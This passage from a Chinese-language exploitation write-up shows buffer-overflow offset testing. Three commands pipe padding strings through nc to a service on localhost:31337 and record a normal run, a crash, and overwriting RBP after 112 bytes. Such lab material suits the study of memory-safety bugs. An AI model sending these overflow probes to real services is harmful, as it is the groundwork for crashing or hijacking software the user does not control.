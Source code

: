 #### 3.4 验证

112 个 A 程序正常运行

```bash
echo $(python2 -c 'print "A" * 112') | nc localhost 31337
```

[![](assets/1703831476-369d1018607a4d7947af1e20edc41773.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224812-f53dd672-a4c6-1.png)

112 个 A + 1 个 B。程序崩溃

```bash
echo $(python2 -c 'print "A" * 112 + "B" * 1') | nc localhost 31337
```

[![](assets/1703831476-1a3df7f23740cc9f79cdec94c8e9c597.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224818-f9377580-a4c6-1.png)

112 个 A+8 个 B。填充满 RBP 需要 +8 个字符

```bash
echo $(python2 -c 'print "A" * 112 + "B" * 8') | nc localhost 31337
```

[![](assets/1703831476-5c02b3922893a6354c0c2f46aaffbf4c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224825-fd6db182-a4c6-1.png)
